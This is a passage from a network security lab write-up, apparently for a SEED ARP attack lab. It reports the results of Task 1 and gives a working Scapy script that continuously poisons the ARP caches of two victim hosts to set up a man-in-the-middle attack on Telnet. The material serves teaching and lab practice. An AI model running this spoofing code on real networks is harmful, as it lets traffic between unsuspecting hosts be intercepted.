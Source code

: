 #### Results
> - Scenario 1:
> 	 - The attack is successful.
> 	 - After executing the attack, Victim A changed IP address of Victim B (10.9.0.6) to point towards the mac address of Attacker M (02:42:0a:09:00:69).
>  - Scenario 2:
> 	  - The attack is unsuccessful.
>    - After executing the attack, nothing changed in Victim A.

# Task 2: MITM Attack on Telnet using ARP Cache Poisoning

## Step 1 (Launch the ARP cache poisoning attack)
First, Host M conducts an ARP cache poisoningattack on both A and B, such that in A’s ARP cache, B’s IP address maps to M’s MAC address, and in B’s ARP cache, A’s IP address also maps to M’s MAC address. After this step, packets sent between A and B will all be sent to M. We will use the ARP cache poisoning attack from Task 1 to achieve this goal. It is better that you send out the spoofed packets constantly (e.g. every 5 seconds); otherwise, the fake entries may be replaced by the real ones.

#### Python [ARP-Poisoning.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-Poisoning.py)
```python
# arp_poison.py
from scapy.all import *
import time

# Victim A's values
a_mac   = "02:42:0a:09:00:05"   # MAC of A
a_ip    = "10.9.0.5"            # IP of A

# Victim B's values
b_mac   = "02:42:0a:09:00:06"   # MAC of B
b_ip    = "10.9.0.6"            # IP of B

# Attacker's values
m_mac   = "02:42:0a:09:00:69"   # MAC of M
m_ip    = "10.9.0.105"          # IP of M

def poison():
    while True:
        pkt_to_a = Ether(dst=a_mac)/ARP(op=2, psrc=b_ip, pdst=a_ip, hwsrc=m_mac, hwdst=a_mac)
        pkt_to_b = Ether(dst=b_mac)/ARP(op=2, psrc=a_ip, pdst=b_ip, hwsrc=m_mac, hwdst=b_mac)
        sendp(pkt_to_a, iface="eth0", verbose=False)
        sendp(pkt_to_b, iface="eth0", verbose=False)
        time.sleep(5)

poison()
```

#### Results
> Using the python code above (ARP-Poisoning.py), the attack works.
